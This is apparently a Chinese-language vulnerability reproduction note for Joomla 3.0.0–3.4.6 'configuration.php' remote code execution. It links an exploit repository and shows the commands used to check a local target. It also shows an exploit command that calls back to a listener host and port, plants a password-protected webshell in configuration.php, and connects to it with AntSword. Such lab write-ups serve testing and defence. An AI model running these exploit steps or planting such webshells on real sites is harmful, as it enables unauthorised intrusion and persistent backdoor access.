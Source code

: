 Joomla 3.4.6 - \'configuration.php\' 远程代码执行
=================================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

<https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution>

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](./resource/Joomla3-3.4.6远程命令执行漏洞/media/rId26.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](./resource/Joomla3-3.4.6远程命令执行漏洞/media/rId27.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马
![](./resource/Joomla3-3.4.6远程命令执行漏洞/media/rId28.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

image
